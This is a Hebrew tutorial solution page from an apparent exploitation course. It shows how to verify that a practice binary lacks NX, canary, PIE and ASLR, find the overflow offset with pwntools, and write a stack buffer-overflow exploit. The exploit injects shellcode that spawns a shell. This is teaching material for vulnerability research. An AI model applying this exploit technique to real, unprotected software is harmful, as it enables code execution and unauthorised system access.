

repository: AmitPinchasi/amittech · page: מחקר-חולשות/3 - Shellcode/3.2 - הזרקה והרצה ללא NX/3.2 - הזרקה והרצה ללא NX - פתרון/index.html · generator: mkdocs

## פתרון - הזרקה והרצה ללא NX

נעבור על התרגילים לפי הסדר. הרעיון המרכזי חוזר בכולם: מזריקים shellcode לזיכרון שאנחנו שולטים בו, ומכוונים את הreturn address אליו. ההבדל בין השיטות הוא רק **איך אנחנו יודעים את הכתובת** שאליה לקפוץ.

### פתרון תרגיל 1 - אימות התנאים

```bash
$ checksec --file=./vuln64
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE
RWX:      Has RWX segments

$ readelf -l vuln64 | grep GNU_STACK
GNU_STACK  0x0 0x0 0x0 0x0 0x0 RWE 0x10

$ cat /proc/sys/kernel/randomize_va_space
0
```

שלוש הבדיקות הקריטיות: `NX disabled` (המחסנית ניתנת להרצה), האות `E` בדגלי `GNU_STACK`, וה-`0` שאומר ש-ASLR כבוי. אם אחד מהם לא במקום, אין טעם להמשיך - נקבל `SIGSEGV` בקפיצה או כתובת לא יציבה.

למה זה חשוב: כל ההתקפה בפרק הזה מניחה מחסנית ניתנת להרצה. `-z execstack` הוא מה שמסמן את מקטע `GNU_STACK` כ-`RWE`, והטוען מעביר את הסימון הזה לזכרון בזמן ריצה.

### פתרון תרגיל 2 - כתובת ישירה (64 ביט)

קודם מוצאים את ה-offset עם `cyclic`:

```python
from pwn import *
context.arch = 'amd64'
io = process('./vuln64')
io.sendline(cyclic(200))
io.wait()
core = io.corefile
rip = core.read(core.rsp, 8)          # what gets popped into rip
log.info('offset = %d', cyclic_find(rip))   # prints 72
```

קיבלנו `offset = 72` (buffer 64 + saved rbp 8). עכשיו מוצאים את כתובת הbuffer ב-gdb:

```text
pwndbg> break vuln
pwndbg> run
pwndbg> search -s "AAAAAAAA"
[stack] 0x7fffffffde10 'AAAAAAAA...'
```

הערה: כדי שיהיה מה לחפש, שולחים קלט של `A`-ים דרך הרצה נפרדת, או פשוט קוראים את `$rsp` אחרי ה-`read`. נניח שהbuffer בכתובת `0x7fffffffde10`. ה-exploit הפשוט, עם ה-shellcode בתחילת הbuffer:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./vuln64')
context.arch = 'amd64'

offset  = 72
buf_addr = 0x7fffffffde10               # from gdb
sc = asm(shellcraft.amd64.linux.sh())   # or the hand-written bytes from 3.1

payload  = sc                            # the shellcode at the start of the buffer
payload += b'A' * (offset - len(sc))     # padding up to the return address
payload += p64(buf_addr)                 # ret jumps to the start of the buffer = the shellcode

io = process('./vuln64')
io.recvuntil(b'payload:')
io.send(payload)
io.interactive()
```

זה יעבוד ב-gdb, אבל כנראה יקרוס בהרצה רגילה - כי `buf_addr` שראינו ב-gdb שונה מהכתובת האמיתית בגלל הבדלי סביבה. את זה מתקנים בתרגיל 3.

למה זה עבד (כשעבד): ASLR כבוי, אז כתובת הbuffer יציבה. הזרקנו את ה-shellcode לתחילת הbuffer וכיוונו את הreturn address בדיוק לשם. שימו לב שהbuffer (64) גדול מספיק ל-shellcode של 27 בתים, אז נשאר מקום לpadding.
